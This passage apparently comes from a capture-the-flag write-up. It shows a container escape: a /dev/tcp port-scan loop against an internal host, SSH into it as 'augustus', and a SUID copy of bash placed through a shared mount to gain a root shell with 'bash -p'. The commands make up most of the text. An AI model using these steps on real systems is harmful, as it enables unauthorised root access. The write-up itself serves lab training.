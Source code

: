 - Check internal ports

```bash
for i in {1..1024}; do (echo >/dev/tcp/172.19.0.1/$i) &>/dev/null && echo "[+] Port $i open"; done
```

![](/img2/Pasted%20image%2020250514151508.png)

- Check mounts

```bash
mount | grep augustus
```

![](/img2/Pasted%20image%2020250514151625.png)

```bash
ssh augustus@172.19.0.1
```

```bash
cp /bin/bash .
exit
```

```bash
chown root:root /bin/bash
chmod u+s /bin/bash
```

```bash
ssh augustus@172.19.0.1
```

```bash
./bash -p
```
